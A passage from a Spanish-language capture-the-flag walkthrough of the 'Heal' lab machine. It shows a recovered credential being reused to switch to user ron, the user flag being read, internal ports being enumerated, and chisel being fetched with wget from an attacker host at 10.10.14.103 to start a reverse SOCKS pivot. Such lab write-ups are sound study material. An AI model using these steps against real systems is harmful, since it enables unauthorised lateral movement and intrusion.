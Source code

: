 Podemos probar esta credencial con el usuario `ron` y vemos que es válida.
```console
www-data@heal:~/limesurvey$ su ron
Password:
ron@heal:/var/www/limesurvey$ id
uid=1001(ron) gid=1001(ron) groups=1001(ron)
```

Podemos ver la flag de usuario.
```console
ron@heal:~$ cat user.txt
fc14dd386b663f87e...
```
# Privilege Escalation
Enumerando la máquina víctima encontramos varios puertos internos abiertos.
```console
ron@heal:~$ netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3001          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8600          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8503          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.1:8600          0.0.0.0:*                           -
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           -
udp        0      0 0.0.0.0:60690           0.0.0.0:*                           -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
udp        0      0 127.0.0.1:8301          0.0.0.0:*                           -
udp        0      0 127.0.0.1:8302          0.0.0.0:*                           -
udp6       0      0 :::56297                :::*                                -
udp6       0      0 :::5353                 :::*                                -
```

## Reverse SOCKS w/chisel
Ahora, nos vamos a compartir `chisel` en la máquina víctima.
```console
wget http://10.10.14.103:8081/chisel
--2024-12-30 19:19:05--  http://10.10.14.103:8081/chisel
Connecting to 10.10.14.103:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8654848 (8.3M) [application/octet-stream]
Saving to: ‘chisel’

chisel              100%[===================>]   8.25M  13.0MB/s    in 0.6s

2024-12-30 19:19:05 (13.0 MB/s) - ‘chisel’ saved [8654848/8654848]
```
